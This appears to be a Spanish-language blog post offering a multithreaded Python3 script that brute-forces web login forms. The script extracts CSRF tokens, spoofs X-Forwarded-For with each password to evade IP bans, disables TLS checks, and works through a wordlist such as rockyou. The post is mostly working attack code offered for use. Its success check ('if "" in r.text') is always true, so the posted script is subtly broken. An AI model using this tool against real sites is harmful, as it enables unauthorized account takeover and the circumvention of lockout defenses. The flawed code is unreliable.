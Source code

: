# Brute-Force Login With Threads

# [https://pastebin.com/9gW4iGkJ](https://pastebin.com/9gW4iGkJ)

![Untitled](/assets/images/Brute-Force-Login-With-Threads/Untitled2.png)

He realizado este script ya que he estado investigando un poco y me parecía que no habían muchos scripts en python3 que realicen fuerza bruta a un login, por eso he decidido compartirlo con vosotros.

Primero que nada os voy a comentar un poco lo que hace este script y como debéis de usarlo ya que no funciona para cualquier pagina, actualmente en esta “version” únicamente funciona contra paginas que tengan o no tengan un tokenCSRF, en caso de que no lo tengan implementado y unicamente se tramite por POST el “username” y el “password” tenéis que cambiar la configuración del script de esta forma:

```python
#Extraccion del token anti-csrf
        #token = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*?)"', r.text)[0]
        post_data = {
            #'tokenCSRF': '%s' % token,
            'username' : '%s' % username,
            'password' : '%s' % password,
            'save': ''
        }
```

También tenéis que configurar la respuesta del lado del servidor para comprobar si la contraseña es correcta o no lo es, para ello realizareis una petición con unas credenciales incorrectas y veréis el típico error al fallar las credenciales como por ej: “Invalid credentials”, sabiendo la respuesta del lado del servidor configurareis el script de la siguiente forma:

```python
#Configuracion de la respuesta del servidor para averiguar la contraseña
        if "Invalid credentials" not in r.text:
            print(Color.BLUE + "\n\nLa contraseña es: " + Color.YELLOW + "%s" % password)
            executor.shutdown(wait=False, cancel_futures=True)
            sys.exit(1)
        else:
            pass
```

Por mi experiencia en la creación del script recomiendo no usar mas de 2 hilos de velocidad (esta puesto 2 hilos por defecto), ya que estos tipos de ataques dependen mucho de la velocidad de respuesta del servidor web, y si le metemos muchos hilos va a ir muy rápido pero no le dará tiempo a comprobar si la contraseña es correcta o no. Todo depende de la velocidad del servidor.

Os dejo por aquí también el script:

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
 
import requests
from pwn import *
import urllib3
import mmap
import argparse
 
from concurrent.futures import ThreadPoolExecutor
  
# CTRL+C
def def_hundler(sig, frame):
    print(Color.RED + "[!]Saliendo..")
    exit(1)
signal.signal(signal.SIGINT, def_hundler) 
 
#Colores
class Color:
    CYAN = '\033[96m'
    BLUE = '\033[94m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    RED = '\033[91m'
    END = '\033[0m'
#Funciones
def usage():
    fNombre = os.path.basename(__file__)
    ussage = fNombre + ' [-h] -url <URL> [-u USERNAME] [-w DICCIONARIO] [-t HILOS]\n\n'
    ussage += '[+] Examples:\n'
    ussage += '\t' + fNombre + ' -url https://google.com/login -u admin -w /usr/share/wordlists/rockyou.txt -t 2\n'
    return ussage
 
def arguments():
    parse = argparse.ArgumentParser(usage=usage(), description="Python3 Brute-Force login with threads")
    parse.add_argument('-u', dest='username', type=str, default='', help='Usuario a reventar')
    parse.add_argument('-w', dest='diccionario', type=str, default='', help='Diccionario a usar')
    parse.add_argument('-url', dest='url', type=str, help='URL del login')
    parse.add_argument('-t', dest='threads', type=int, default='2', help='Hilos (Velocidad), Default -> [2]')
    return parse.parse_args()
 
#Funcion para sacar el numero de palabras de un diccionario 
def get_num_lines(diccionario):
    fp = open(diccionario, "r+")
    buf = mmap.mmap(fp.fileno(), 0)
    lines = 0
    while buf.readline():
        lines += 1
    return lines
 
 
def do_login(s, url, username, password, executor, count, total):
 
    try:
        r = s.get(url)
        #Extraccion del token anti-csrf
        token = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*?)"', r.text)[0]
        post_data = {
            'tokenCSRF': '%s' % token,
            'username' : '%s' % username,
            'password' : '%s' % password,
            'save': ''
        }
        headers_data = {
            #Bypass IP-BAN
            'X-Forwarded-For': '%s' % password,
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        }
#        proxy = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
        r = s.post(url, data=post_data, headers=headers_data, allow_redirects = True)
        p1.status(Color.BLUE + "Intentando con la contraseña" + Color.RED + " [%d/" %count + "%d] ==>" %total + Color.GREEN + " %s" %password)        
        #Configuracion de la respuesta del servidor para averiguar la contraseña
        if "" in r.text:
            print(Color.BLUE + "\n\nLa contraseña es: " + Color.YELLOW + "%s" % password)
            executor.shutdown(wait=False, cancel_futures=True)
            sys.exit(1)
        else:
            pass
 
    except Exception as e:
        print(e)
 
def main(url, username, diccionario, executor):
    try:
        urllib3.disable_warnings()
        s = requests.session()
        s.verify = False
        count = 0
        with open(diccionario, encoding='latin-1') as fp:
            for password in fp.read().splitlines():
                count += 1
                executor.submit(do_login, s, url, username, password, executor, count, total)
    except Exception as e:
        print(e)
 
if __name__ == '__main__':
    print(Color.CYAN + """
██████╗ ██████╗ ██╗   ██╗████████╗███████╗    ███████╗ ██████╗ ██████╗  ██████╗███████╗██████╗ 
██╔══██╗██╔══██╗██║   ██║╚══██╔══╝██╔════╝    ██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔════╝██╔══██╗
██████╔╝██████╔╝██║   ██║   ██║   █████╗█████╗█████╗  ██║   ██║██████╔╝██║     █████╗  ██████╔╝
██╔══██╗██╔══██╗██║   ██║   ██║   ██╔══╝╚════╝██╔══╝  ██║   ██║██╔══██╗██║     ██╔══╝  ██╔══██╗
██████╔╝██║  ██║╚██████╔╝   ██║   ███████╗    ██║     ╚██████╔╝██║  ██║╚██████╗███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝ ╚═════╝    ╚═╝   ╚══════╝    ╚═╝      ╚═════╝ ╚═╝  ╚═╝ ╚═════╝╚══════╝╚═╝  ╚═╝ 
        """)
    args = arguments()
    total = get_num_lines(args.diccionario)
    p1 = log.progress(Color.BLUE + "Fuerza Bruta sobre el usuario :" + Color.RED + " %s" % args.username)    
    executor = ThreadPoolExecutor(args.threads)
    main(args.url, args.username, args.diccionario, executor)
```